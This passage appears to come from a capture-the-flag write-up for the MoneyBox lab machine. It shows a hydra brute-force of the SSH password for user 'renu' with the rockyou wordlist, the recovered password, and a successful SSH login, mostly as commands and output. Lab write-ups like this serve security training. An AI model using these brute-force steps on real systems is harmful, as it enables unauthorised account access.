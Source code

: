 &nbsp;

## Exploitation

### Brute forcing SSH password

Let's brute force the SSH credentials using `hydra`.

```
$ hydra -l renu -P /usr/share/wordlists/rockyou.txt ssh://192.168.167.230 
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-06 11:24:28
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.167.230:22/
[22][ssh] host: 192.168.167.230   login: renu   password: 987654321
```

| Username | Password  |
| :-: | :-: |
| renu     | 987654321 |

### SSH login

We can now login through SSH using the credentials.

```
$ ssh renu@192.168.167.230          
The authenticity of host '192.168.167.230 (192.168.167.230)' can't be established.
ED25519 key fingerprint is SHA256:4skFgbTuZiVgZGtWwAh5WRXgKXTdP7U5BhYUsIg9nWw.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.167.230' (ED25519) to the list of known hosts.
renu@192.168.167.230's password: 
Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 23 10:00:13 2022
renu@MoneyBox:~$ 
```
